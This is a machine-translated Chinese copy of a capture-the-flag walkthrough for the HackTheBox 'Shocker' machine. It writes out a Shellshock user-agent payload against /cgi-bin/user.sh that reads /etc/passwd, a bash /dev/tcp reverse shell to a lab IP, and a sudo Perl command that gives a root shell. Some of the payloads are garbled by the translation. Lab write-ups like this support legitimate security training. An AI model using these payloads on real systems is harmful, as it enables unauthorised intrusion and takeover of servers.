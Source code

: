 # 黑客盒子的修卡

> 原文：<https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b?source=collection_archive---------3----------------------->

## Shellshock 和 Perl 等同于修卡

![](img/645b4d8a314e7cacfe5818f75dba44d8.png)

你好，了不起的黑客，我希望你今天做得很好，我们要做的是来自 Hackthebox 的**修卡**它是一个很容易退役的 Linux 机器，我们在其中使用 **shellshock** 漏洞来获得最初的立足点，我们使用 Perl 将我们的特权升级到 root 用户。那么让我们开始吧……

**我们需要的工具:-**

**现在我们将开始 nmap 扫描:-**

两个端口是开放的，一个是端口 80 (http)，另一个是 2222(ssh)。我将首先检查端口 80(因为它具有更大的攻击面)

![](img/1a900898d01bd812a388711b4b06f909.png)

检查端口 80

嗯，这里没什么有趣的。现在我将尝试目录暴力。过了一会儿，我得到了 **/cgi-bin**

dirb 扫描

然后我试着在 **/cgi-bin** 上运行 **go buster** ，我得到了 **/user.sh**

Gobuster 结果

我厌倦了检查 **/user.sh** ，似乎 [**uptime**](https://www.geeksforgeeks.org/linux-uptime-command-with-examples/) 命令正在运行。

![](img/0851621e6ae54cb60f02c77b7746e169.png)

checking /user.sh

所以我想为什么不试试 shellshock。你可能想知道 shellshock 到底是什么？？

## 简单来说，这是 bash 中的一个漏洞，使得攻击者能够在使用 bash 处理请求的面向互联网的 web 服务器上执行任意命令。

# 让我们开发……..

## 我们将首先手动尝试:-

> 去拦截请求[http://{ IP }/CGI-bin/user . sh](http://{ip}/cgi-bin/user.sh)。然后把 user-agent 改成**(){:；};回声；回声；/bin/bash-c ' cat/etc/passwd '**

![](img/572e7c0e08bb1ffb59e7803e980a5c61.png)

[**https://media.giphy.com/media/sKUFOXcYQnDmpyqJca/giphy.gif**](https://media.giphy.com/media/sKUFOXcYQnDmpyqJca/giphy.gif)

> 现在我将尝试获得 reverse shell**(){:；};回声；回声；/bin/bash-c ' bash-I>&/dev/TCP/10 . 10 . 14 . 88/1234 0>&1 '清除**

![](img/de2cf4ce78fff003fb49a9d1b1d7fe89.png)

获取版本外壳

[https://media.giphy.com/media/zG8AlgXlmmPWtCNBxJ/giphy.gif](https://media.giphy.com/media/zG8AlgXlmmPWtCNBxJ/giphy.gif)

# 现在我们将尝试使用 metasploit 获取 shell

![](img/7068de785606bdd708b0131aabc28c6e.png)

metasploit

# 我们需要将我们的权限提升到根用户

因此，我的方法是始终运行以下命令:-

(I)sudo-version(它给出了 sudo 版本，我们可以使用该版本来搜索 sudo 是否易受攻击)

(ii) sudo -l(简单地说，它告诉我们用户可以作为根用户或不同用户运行哪个二进制文件)

(iii) cat /etc/crontab ( [它打印出哪些 cronjobs 正在运行](https://linuxize.com/post/how-to-list-cron-jobs-in-linux/))。

(四)我们不能忘记林豌豆

> 我们可以作为根用户运行 Perl。所以让我们去找我们的好朋友 [gtfo bin](https://gtfobins.github.io/) 了解一下我们如何以根用户的身份使用 Perl 来执行命令

![](img/10a3afbb75d97c96b2915c9e5d874ef0.png)

须岛一号

我们可以使用这个命令`sudo perl -e 'exec "/bin/sh";'`来获得根

![](img/77f5e4d1927552be58151a92096b5ed8.png)

gtfo bin perl

我们有了根

![](img/52c4d37c44b430a9099d27c2d9b27582.png)

但是等等**什么鬼** `sudo perl -e 'exec "/bin/sh";'`？？？

我们可以**以 **root** 用户身份执行** **Perl** 而无需任何**密码**。并且- **e** [意味着它允许你定义由编译器](https://www.perl.com/pub/2004/08/09/commandline.html/)执行的 Perl 代码，而 **exec** 就像 Perl 中的一个函数，允许我们运行 **/bin/bash**

谢谢你读这篇文章，我很想听到你的反馈，这样我就可以提高我的写作水平。如果你有任何问题，你可以在推特上给我发短信[https://twitter.com/Hac10101](https://twitter.com/Hac10101)